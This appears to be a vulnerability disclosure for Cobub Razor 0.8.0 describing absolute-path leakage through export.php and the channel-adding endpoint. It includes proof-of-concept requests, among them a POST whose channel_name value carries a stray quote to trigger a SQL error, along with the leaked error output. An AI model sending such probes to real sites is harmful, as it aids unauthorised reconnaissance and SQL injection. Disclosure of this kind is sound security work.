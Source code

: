 
## This physical path Leakage exists in Western Bridge Cobub Razor 0.8.0 via a /index.php?/manage/channel/addchannel and /export.php request. ##

The pages leaked the absolute path:  
URL: http://localhost/export.php  
Method: GET   
Result:
```
Notice: Undefined index: type in D:\phpStudy\PHPTutorial\WWW\export.php on line 22

Notice: Undefined index: svg in D:\phpStudy\PHPTutorial\WWW\export.php on line 23

Notice: Undefined index: filename in D:\phpStudy\PHPTutorial\WWW\export.php on line 24

Notice: Undefined variable: ext in D:\phpStudy\PHPTutorial\WWW\export.php on line 52

Notice: Undefined variable: ext in D:\phpStudy\PHPTutorial\WWW\export.php on line 94
Invalid type
```
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/Cobub_Razor_0.8.0_lackage_1.png)  

URL: http://localhost/index.php?/manage/channel/addchannel  
Method: POST:channel_name=test"&platform=1  
Result:
```
Error Number: 1064

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '123"' at line 3

select * from razor_channel where (user_id = "1" or type="system") and active=1 and channel_name="test" " and platform="123"

Filename: D:\phpStudy\PHPTutorial\WWW\system\database\DB_driver.php

Line Number: 331
```  
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/Cobub_Razor_0.8.0_lackage_2.png)

